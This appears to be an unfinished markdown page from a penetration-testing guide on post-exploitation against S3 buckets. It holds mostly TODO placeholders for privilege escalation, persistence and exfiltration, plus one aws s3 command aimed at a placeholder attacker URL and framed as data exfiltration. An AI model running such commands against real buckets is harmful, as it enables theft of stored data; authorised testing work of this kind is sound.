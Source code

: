 # 04 - Post Exploitation

## Privilege Escalation

TODO: Write conditions to escalate to gain full control of the s3 bucket servers

## Maintaining Access

TODO: Provide steps for creating user accounts with admin access

## Data Exfiltration

TODO: Setup MinIO on a server to exflitrate s3 bucket instances and write conditions before executing this phase

`$ aws s3 --endpoint=http[s]://<attacker_url> --no-sign-request --recursive ls s3://<s3_bucket_IP>`
## References

- [MinIO](https://min.io)

- [minio-backup-s3](https://github.com/fandoghpaas/minio-backup-s3)